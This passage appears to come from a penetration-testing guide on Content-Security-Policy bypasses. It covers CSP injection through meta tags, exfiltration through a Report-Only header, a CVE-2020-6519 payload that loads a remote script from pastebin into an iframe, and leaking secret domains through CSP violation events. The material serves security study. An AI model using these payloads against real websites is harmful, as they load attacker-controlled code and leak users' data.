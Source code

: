 In [**this CTF writeup**](https://github.com/aszx87410/ctf-writeups/issues/48), it was possible via **HTML injection** to **restrict** more a **CSP** so a script preventing CSTI was disabled and therefore the **vulnerability became exploitable.**\
CSP can be made more restrictive using **HTML meta tags** and inline scripts can disabled **removing** the **entry** allowing their **nonce** and **enable specific inline script via sha**:

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'
'unsafe-eval' 'strict-dynamic'
'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2boz%2bCtD7RE4='
'sha256-Tz/iYFTnNe0de6izIdG%2bo6Xitl18uZfQWapSbxHE6Ic=';">
```

### JS exfiltration with Content-Security-Policy-Report-Only

If you can manage to make the server responds with the header **`Content-Security-Policy-Report-Only`** with a **value controlled by you** (maybe because of a CRLF), you could make it point your server and if you **wraps** the **JS content** you want to exfiltrate with **`<script>`** and because highly probable `unsafe-inline` isn't allowed by the CSP, this will **trigger a CSP error** and part of the script (containing the sensitive info) will be sent to the server from `Content-Security-Policy-Report-Only`.

For an example [**check this CTF writeup**](https://github.com/maple3142/My-CTF-Challenges/tree/master/TSJ%20CTF%202022/Nim%20Notes).

### [CVE-2020-6519](https://www.perimeterx.com/tech-blog/2020/csp-bypass-vuln-disclosure/)

```javascript
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```

### Leaking Information with CSP and Iframe

* An `iframe` is created that points to a URL (let's call it `https://example.redirect.com`) which is permitted by CSP.
* This URL then redirects to a secret URL (e.g., `https://usersecret.example2.com`) that is **not allowed** by CSP.
* By listening to the `securitypolicyviolation` event, one can capture the `blockedURI` property. This property reveals the domain of the blocked URI, leaking the secret domain to which the initial URL redirected.

It's interesting to note that browsers like Chrome and Firefox have different behaviors in handling iframes with respect to CSP, leading to potential leakage of sensitive information due to undefined behavior.

Another technique involves exploiting the CSP itself to deduce the secret subdomain. This method relies on a binary search algorithm and adjusting the CSP to include specific domains that are deliberately blocked. For example, if the secret subdomain is composed of unknown characters, you can iteratively test different subdomains by modifying the CSP directive to block or allow these subdomains. Here’s a snippet showing how the CSP might be set up to facilitate this method:

```markdown
img-src https://chall.secdriven.dev https://doc-1-3213.secdrivencontent.dev https://doc-2-3213.secdrivencontent.dev ... https://doc-17-3213.secdriven.dev
```
